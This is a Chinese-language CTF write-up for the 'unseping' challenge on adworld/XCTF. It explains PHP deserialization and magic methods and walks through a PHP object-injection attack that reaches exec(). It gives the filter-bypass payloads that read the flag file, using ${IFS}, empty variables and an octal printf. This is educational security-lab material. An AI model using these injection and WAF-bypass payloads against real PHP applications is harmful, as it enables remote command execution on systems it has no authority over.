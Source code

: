 

# unseping

adworld[攻防世界 (xctf.org.cn)](https://adworld.xctf.org.cn/challenges/list)

![image-20240716225300996](C:\Users\10649\AppData\Roaming\Typora\typora-user-images\image-20240716225300996.png)

总结：这道题涉及的知识点比较冗杂，1，反序列化，2，魔术方程，3，正则表达式，其中对php的代码审计有要求

先查询三个词的知识

### 反序列化：

反序列化（Deserialization）是将序列化后的数据重新还原成原始数据结构或对象的过程。序列化（Serialization）是将数据结构或对象转换成一种可存储或传输格式的过程，而反序列化则是这个过程的逆操作。

##### 反序列化的用途

反序列化在许多场景中非常有用，例如：

1. **数据存储**：将序列化的数据从文件或数据库中读取，并还原成原始对象，以便在程序中使用。
2. **网络通信**：在网络上传输数据时，接收端需要将序列化的数据反序列化为原始对象，以便进行处理。
3. **对象持久化**：在分布式系统中，不同节点之间需要通过序列化和反序列化来交换对象数据。

### 魔术方程：

[PHP的魔术方法（Magic Methods）是一组特殊的方法，它们在特定的事件发生时会自动调用。这些方法以双下划线（__）开头，例如 `__construct()`、`__destruct()`、`__call()` 等。这些方法可以帮助实现类的自动加载、属性访问、对象克隆、序列化和反序列化等功能

- **`__construct()`**：类的构造函数，在对象创建时自动调用。
- **`__destruct()`**：类的析构函数，在对象销毁时自动调用。
- **`__call()`**：在对象中调用一个不可访问的方法时调用。
- **`__get()`**：获取一个类的成员变量时调用。
- **`__set()`**：设置一个类的成员变量时调用。
- **`__toString()`**：类被当成字符串时的回应方法。

## writeup：

首先打开页面，发现就是一个php代码，进行代码审计            

```php
<?php
highlight_file(__FILE__);

class ease{
    
    private $method;
    private $args;
    function __construct($method, $args) {
        $this->method = $method;
        $this->args = $args;
    }
 
    function __destruct(){
        if (in_array($this->method, array("ping"))) {
            call_user_func_array(array($this, $this->method), $this->args);
        }
    } 
 
    function ping($ip){
        exec($ip, $result);
        var_dump($result);
    }

    function waf($str){
        if (!preg_match_all("/(\||&|;| |\/|cat|flag|tac|php|ls)/", $str, $pat_array)) {
            return $str;
        } else {
            echo "don't hack";
        }
    }
 
    function __wakeup(){
        foreach($this->args as $k => $v) {
            $this->args[$k] = $this->waf($v);
        }
    }   
}

$ctf=@$_POST['ctf'];
@unserialize(base64_decode($ctf));
?>
```

首先我们可以看到__wakeup and __destruct两个魔术方程

我们可以总结出这个流程：

反序列化传入ctf参数---参数进行base64解密---参数进行反序列化---因为调用了反序列化函数，隐式调用了wakeup参数---wakeup调用waf进行正则表达式过滤---传入两个参数，method字符串和数组args---在销毁时候，如果method是ping，就执行ping函数中，传递参数 【args】这个命令

这其中涉及到call_user_func_array这个参数回调函数，其用法

```php
mixed call_user_func_array(callable $callback, array $args)
```

- **`$callback`**：要调用的回调函数，可以是函数名的字符串、类的方法（数组形式），或者匿名函数。
- **`$args`**：一个数组，包含要传递给回调函数的参数。

以下是一个简单的例子：

```php
function add($a, $b) {
    return $a + $b;
}

$params = array(2, 3);
$result = call_user_func_array('add', $params);
echo $result; // 输出: 5
```

所以思路很清晰吗，我们构造一个序列化的字符串，其中method=ping，args=“我们执行的shell”

我们不需要太考虑怎么构造序列化字符串，因为我们本地调试部署一个就会自动生成比如：

把除了构造函数其他的都注释掉，在测试中加上

```php
$ctf=@$_POST['ctf'];
@unserialize(base64_decode($ctf));
$a=new ease("ping",array("pwd"));
echo serialize($a)."\n";
echo base64_encode(serialize($a));
```

就可以得到我们想要的序列化字符串

接下来的问题是如何绕过正则表达式：他过滤了\||&|;| |\/|cat|flag|tac|php|ls这些命令，我们可以怎么想绕过？

1，命令中间加未定义空变量，其会自动转义为空

2，`空格`可以考虑用${IFS}这个在linux下的空格转义符表示

3,url编码，不过这里不能使用，因为绕过之后是直接执行exec命令，他无法识别url编码

4，8进制，16进制绕过

可以这样写

```
ca${AAA}t${IFS}fl${AAA}ag_1s_here/fl${AAA}ag_831b69012c67b35f.ph${AAA}p
```

但是`/`没法绕过啊，那就用八进制绕过这个/

```
"$(printf	"\143\141\164\40\146\154\141\147\137\61\163\137\150\145\162\145\57\146\154\141\147\137\70\63\61\142\66\71\60\61\62\143\66\67\142\63\65\146\56\160\150\160")"
```

完成，得到flag
